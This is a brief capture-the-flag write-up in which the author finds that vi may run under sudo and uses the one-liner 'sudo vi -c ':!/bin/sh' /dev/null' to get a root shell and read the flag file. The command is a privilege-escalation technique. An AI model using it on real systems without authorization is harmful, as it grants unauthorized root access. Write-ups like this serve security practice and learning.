



# permissions

## Description

## Steps
The CTF ask to connect at a specific URL with ssh.

1. After login, I ran this command `sudo ls -l` which give me thenhint to use vin :

2. After many attempts and many googling, I tried this : `sudo vi -c ':!/bin/sh' /dev/null`. 
This command exploits the fact that Vim is allowed to run with sudo privileges. By telling Vim to execute a shell command, I effectively get a root shell, bypassing normal user restrictions.

3. I navigate with `ls -la` and ` cd --` to the root directory.

4. To display the flag I simply use `cat .flag.txt`